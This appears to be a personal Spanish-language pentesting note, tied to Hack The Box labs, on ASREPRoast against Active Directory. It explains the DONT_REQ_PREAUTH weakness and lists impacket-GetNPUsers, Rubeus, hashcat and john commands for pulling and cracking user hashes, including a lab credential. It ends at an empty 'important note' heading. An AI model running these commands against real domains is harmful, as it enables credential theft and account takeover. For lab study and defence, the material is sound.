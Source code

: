 ## DESCRIPTION

![[Pasted image 20230525200335.png]]

El ASREPRoast es una técnica similar al Kerberoasting, que también busca el crackeo offline de las credenciales.

Cuando un usuario está configurado con el atributo DONT_REQ_PREAUTH, no necesita preautenticación, con lo que es posible construir un mensaje KRB_AS_REQ sin conocer las credenciales del mismo.

Una vez construído y enviado, el KDC responderá con un mensaje KRB_AS_REP que contiene datos cifrados con el hash de este usuario, pudiendo ser utilizados para el crackeo offline.


What's we need? →  User and DONT_REQ_PREAUTH atribute
What's we obtain? → USER hash NTLM 


#### Mas información
* 


## EXPLOITATION

### OPTION 1: KALI

1. Explotación:

```
impacket-GetNPUsers -dc-ip 10.10.10.192 -no-pass -usersfile usuarios-kerberos.txt blackfield.local/

#Con usuario login
impacket-GetNPUsers -dc-ip <<IP DC>> <<dominio>>/<<USER>>:<<PASS>> -request -format john -outputfile hash

Ejemplo

impacket-GetNPUsers active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request -format john -outputfile hash

```

Si tenemos un usuario y una pass también podemos usar también ASEREPROAST para obtener el ticket de otros usuarios (SIGUIENTE APARTADO)

2. Cracking

```
sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --forc

john --wordlist=<passwords_file> <AS_REP_responses_file>
```

### OPTION 2: WIN

```
.\Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>
```

## MACHINES

* Hack The Box: Forest

**!!NOTA IMPORTANTE!!** 